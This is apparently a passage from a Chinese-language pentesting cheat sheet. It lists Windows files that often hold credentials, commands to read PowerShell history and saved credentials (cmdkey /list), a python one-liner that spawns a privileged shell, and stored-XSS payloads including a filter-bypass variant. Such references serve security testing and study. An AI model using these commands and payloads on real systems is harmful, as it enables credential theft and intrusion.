 - C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## powershell历史记录
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## 保存的Windows凭证
cmdkey /list

## iis配置


- C:\inetpub\wwwroot\web.config
- C：\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
- C：\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

## python提权
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


# XSS
## 存储型xss
```
<script>alert('xss')</script>
<SCRIPT>alert('xss')</SCRIPT>
<sc<script>ript>alert('xss')</script>
```